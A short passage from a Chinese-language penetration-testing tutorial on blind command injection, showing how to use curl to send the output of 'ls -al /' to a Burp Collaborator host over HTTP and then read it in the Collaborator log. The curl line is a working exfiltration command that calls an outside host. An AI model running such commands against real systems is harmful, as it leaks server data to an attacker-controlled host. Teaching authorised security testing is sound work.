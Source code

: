 ![1536409951024](Untitled.assets/1536409951024.png)

	

	如果想执行ls查看根目录有哪些文件，用dns携带不了那么多信息，转而使用http请求，执行如下命令：

```bash
curl p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net -d "`ls -al /`"
```

	再次点击Collaborator client窗口中的Poll now获取log，我们可以在log区看到一条http日志，我们查看请求原始信息可以看到请求体中携带出了`ls -al /`的执行结果。
